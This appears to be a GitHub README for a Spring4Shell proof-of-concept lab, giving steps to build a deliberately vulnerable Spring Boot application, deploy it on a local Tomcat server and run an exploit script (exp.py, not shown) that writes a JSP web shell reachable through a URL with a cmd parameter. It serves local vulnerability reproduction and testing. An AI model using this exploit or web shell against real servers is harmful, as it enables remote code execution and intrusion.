 # Spring4Shell POC

Description of the vulnerability: https://www.cyberkendra.com/2022/03/springshell-rce-0-day-vulnerability.html

Construction of the POC: https://github.com/BobTheShoplifter/Spring4Shell-POC

## Steps to Build/Run

Tested with JDK 11.0.14, Spring Boot 2.6.5, and Apache Tomcat 9.0.60

- Run `mvn clean package` to build the application
- Rename `demo-0.0.1-SNAPSHOT.war` to `spring-poc.war` and copy this .war file to Tomcat's webapps directory
- Run `python exp.py --url http://localhost:8080/spring-poc/greeting`
  - If successful, the message `漏洞存在，shell地址为:http://localhost:8080/spring-poc/tomcatwar.jsp?pwd=j&cmd=whoami` will be logged.
  - You should now see the file `tomcatwar.jsp` written to Tomcat's webapps/spring-poc directory. This directory can be changed by modifying `exp.py`. 
  - Go to the url to see the result of the shell command